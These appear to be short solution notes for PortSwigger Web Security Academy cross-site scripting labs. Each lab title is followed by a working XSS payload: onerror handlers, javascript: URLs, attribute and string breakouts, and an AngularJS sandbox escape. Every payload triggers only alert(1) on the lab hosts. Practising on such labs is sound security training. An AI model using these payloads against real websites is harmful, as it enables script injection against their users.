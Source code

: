 Lab: DOM XSS in innerHTML sink using source

-> payload: ```<img src='123.png' onerror='alert(1)'>```


Lab: DOM XSS in jQuery anchor href attribute sink using location.search source

payload: ```https://ac8e1fa11fa32607c0a0cfa800b700a8.web-security-academy.net/feedback?returnPath=javascript:alert(1)```


Lab: Reflected XSS into attribute with angle brackets HTML-encoded

-> payload: ``` " autofocus onfocusin='alert(1)' x="```


Lab: Stored XSS into anchor href attribute with double quotes HTML-encoded

-> payload: ``` https://www.youtube.com/`  x="><img src="1.png" onerror="alert(1)">``` (fill to website)


Lab: Reflected XSS into a JavaScript string with angle brackets HTML encoded

-> payload: ``` 123'; alert(1);//```


Lab: DOM XSS in document.write sink using source location.search inside a select element

-> payload: ``` https://ac9f1f821eb31b49c04d25da00ca00f3.web-security-academy.net/product?productId=1&storeId=<script>alert(1)</script>```


Lab: DOM XSS in AngularJS expression with angle brackets and double quotes HTML-encoded

-> payload: ``` {{constructor.constructor('alert(1)')()}}```

